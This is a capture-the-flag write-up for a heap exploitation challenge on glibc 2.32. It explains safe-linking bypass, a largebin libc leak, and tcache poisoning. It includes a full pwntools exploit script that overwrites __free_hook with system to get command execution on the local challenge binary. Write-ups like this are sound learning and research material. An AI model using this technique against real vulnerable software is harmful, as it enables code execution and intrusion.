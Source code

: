 ## VulnCon CTF: name [pwn]
##### *tl;dr: bypassing the safe-linking mitigation on libc 2.32*

#### I didn't solve this during the ctf and only based my writeup from team zh3r0's. The given challenge binary had many vulnerabilities: allowed negative index access, heap overflow using gets, use after free. 

#### I focused on leveraging the use-after-free but was stuck on poisoning the tcache entries since the address I poisoned was off. This is the point where I learned about the safe-linking hardening of the 2.32 libc, where it obfuscates the "next" entry in singly-linked list bins. Since the operation used was only shifts and xor, it can be easily reversed and we only need to obfuscate the poison entry so that when it gets deobfuscated we get the address that we need.

#### Another thing I was also able to learn was the technique used in leaking a libc address. First we need to allocate a chunk that is unserviceable by tcache then free it so that it gets stored in the unsorted bin. Since the main arena address in the unsorted bin has a null byte, we can't print it out. Next step is to allocate a larger chunk than the previous one, so that the previous chunk gets transferred to the largebin where it gets a non-null starting libc address and only then could we leak it. Exploit script below will add more detail later

```python
from pwn import *

#: CONNECT TO SERVERS
binary = ELF('./heap', checksec = False)
libc = ELF('./libc.so.6', checksec = False)

p = process('./heap', env = {'LD_PRELOAD' : './libc.so.6'})
print(p.recvuntil('exit\n'))

#: GDB SETTINGS
breakpoints = ['brva 0x14ad', 'brva 0x153f', 'brva 0x15d4']
#gdb.attach(p, gdbscript = '\n'.join(breakpoints))

#: EXPLOIT INTERACTION STUFF
def alloc_chunk(index, size, data):

	p.sendline('1')
	p.sendline(str(index))
	p.sendline(str(size))
	p.sendline(data)
	print(p.recvuntil('exit\n'))

def edit_chunk(index, data):

	p.sendline('2')
	p.sendline(str(index))
	p.sendline(data)
	print(p.recvuntil('exit\n'))

def show_chunk(index):

	p.sendline('3')
	p.sendline(str(index))
	print(p.recvuntil('exit\n'))

def free_chunk(index):

	p.sendline('4')
	p.sendline(str(index))
	print(p.recvuntil('exit\n'))

def deobfuscate(pointer, arch = 64):

	p = 0
	
	for i in range(arch * 4, 0, -4): # 16 nibble
		v1 = (pointer & (0xf << i )) >> i
		v2 = (p & (0xf << i+12 )) >> i+12
		p |= (v1 ^ v2) << i
	
	return p

def obfuscate(heap_base,target):
	
	return (heap_base >> 0xc ) ^ target

#: PWN THY VULNS
alloc_chunk(0, 0x420, 'A' * 0x420)
alloc_chunk(1, 0x20, 'B' * 0x20) #: JUST TO AVOID CONSOLIDATION

free_chunk(0) #: SEND CHUNK TO UNSORTED BIN

alloc_chunk(2, 0x520, 'X' * 0x520) #: CREATE CHUNK LARGER THAN THE PREV FREED SO THAT IT GOES INTO THE LARGEBIN AND HAVE A NON-NULL ADDRESS

p.sendline('3') #: PRINT INDEX 0 WHICH IS AT LARGEBIN
p.sendline('0')

leak = u64(p.recvuntil('exit\n').split()[1].ljust(8, '\x00'))
libc_base = leak - 0x1e3ff0

print(hex(leak))
print(hex(libc_base))

#: LEAK HEAP BASE TO DEOBFUSCATE SAFE LINKING
#: SAFE LINKING BASICALLY OBFUSCATES THE NEXT POINTER ON A SINGLY-LINKED LIST
alloc_chunk(3, 0x20, 'C' * 0x20)
free_chunk(3)
free_chunk(1)

p.sendline('3') #: PRINT INDEX 0 WHICH IS AT LARGEBIN
p.sendline('1') #: CHUNK 1'S FD POINTER POINTS TO THE OBFUSCATED ADDR OF CHUNK 3
heap_obfuscated = u64(p.recvuntil('exit\n').split()[1].ljust(8, '\x00'))
heap_base = deobfuscate(heap_obfuscated) - 0x2c0
print(hex(heap_obfuscated))
print(hex(heap_base))

#: TIME TO TCACHE POISON
edit_chunk(1, p64(obfuscate(heap_base, libc_base + libc.symbols['__free_hook'])))
alloc_chunk(4, 0x20, 'cat exploit_template.py')
alloc_chunk(5, 0x20, p64(libc_base + libc.symbols['system']))
free_chunk(4)
p.interactive()

#: REFERENCES
#: https://fascinating-confusion.io/posts/2020/11/csr20-howtoheap-writeup/
```